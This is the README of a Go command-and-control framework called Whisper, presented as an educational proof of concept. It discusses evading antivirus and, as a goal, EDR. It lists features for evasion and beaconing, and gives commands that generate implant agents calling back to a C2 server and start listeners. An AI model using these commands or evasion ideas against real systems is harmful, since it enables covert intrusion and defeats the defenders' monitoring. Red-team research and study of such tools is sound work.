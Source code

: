# Whisper C2 Framework

![Status](https://img.shields.io/badge/status-proof%20of%20concept-brightgreen) [![Go Version](https://img.shields.io/badge/go-1.18+-00ADD8.svg)](https://go.dev/) [![License](https://img.shields.io/badge/license-MIT-blue.svg)](LICENSE)

Whisper is a lightweight Command and Control (C2) framework built entirely in Go. It was developed for educational purposes to explore the fundamentals of C2 architecture and the challenges of evading modern security solutions.

This project serves as a practical tool for researchers, students, and cybersecurity professionals to understand offensive tooling in a controlled, ethical environment.

---

## ⚠️ Disclaimer

This project is intended **solely for educational and research purposes**. The goal is to study adversarial techniques to build better defensive strategies. The author is not responsible for any misuse or damage. **Use this tool ethically and only on systems you have explicit permission to test.**

---

## 🧠 Core Concepts: Bypassing Static vs. Dynamic Analysis

A key goal of this project is to understand how security products detect threats. The current version of Whisper can remain undetected by some basic antivirus (AV) solutions for two main reasons:

1.  **Unique Signature:** As a custom-coded tool, its file hash is not in any AV vendor's database of known malware. It bypasses **static analysis** because it has no recognized malicious signature.

2.  **Simple Behavior:** The agent's current actions are not inherently malicious enough to trigger alarms in AV products that are not performing aggressive **behavioral analysis**.

The real challenge, and the future goal of this project, is to evade **Endpoint Detection and Response (EDR)** systems. An EDR actively monitors system behavior and would likely flag Whisper for:

* An unknown, unsigned program making a persistent network connection.
* An unusual parent-child process relationship (e.g., `agent.exe` spawning `whoami.exe`).

---

## ✨ Current Features

* **Encrypted C2 Channels (TLS)**: Secure traffic using auto-generated certificates.
* **Malleable C2 Profiles**: Agent mimics web traffic (e.g. HTTPS endpoints like `/cdn/image`).
* **Sleep Obfuscation & Jitter**: Randomized beacon intervals for evasion.

---

## 🗺️ Supported Platforms

The following features are planned to evolve Whisper from a simple C2 into a framework capable of evading more sophisticated, behavior-based security solutions.

* [✅] **Windows**
* [⏳] **Linux** 
* [⏳] **MacOS**

---


## 🛠️ Installation & Usage

### Prerequisites

* [Go](https://go.dev/doc/install) (Version 1.18 or higher)
* A basic understanding of networking and command-line interfaces.

### Installation and Setup

First, clone the repository to your local machine:


    git clone https://github.com/rahdian-abdi/whisper.git
    cd whisper


### **Option 1: Using `go run` (For Development)**

You can use `go run` directly during testing or while modifying the framework.

#### **Server Setup (Raw TCP)**

1.  **Generate TLS Certificates:**
    ```bash
    go run ./cmd/whisper.go certificate
    ```

2.  **Generate an Agent:**
    ```bash
    go run ./cmd/whisper.go generate rawtcp [output.exe] [C2_Server:Port]
    ```
3.  **Start Listener:**
    ```bash
    go run ./cmd/whisper.go listen rawtcp [port]
    ```    

### **Option 2: Compile Whisper to a Single Binary**

To make Whisper portable and easier to deploy:

```bash
go build -o whisper.exe ./cmd/whisper.go
```
Then use it just like a standard CLI:
#### **Server Setup (HTTPS)**

1.  **Generate Certificate:**
    ```bash
    ./whisper.exe certificate
    ```

2.  **Generate Agent:**
    ```bash
    ./whisper.exe generate https agent.exe https://[C2_Server]
    ```

3.  **Start Listener:**
    ```bash
    ./whisper.exe listen https
    ```

---

## 🤝 Contributing

Contributions, issues, and feature requests are welcome! Feel free to check the issues page for this repository to contribute.

---

## 📜 License

Distributed under the MIT License. See `LICENSE` for more information.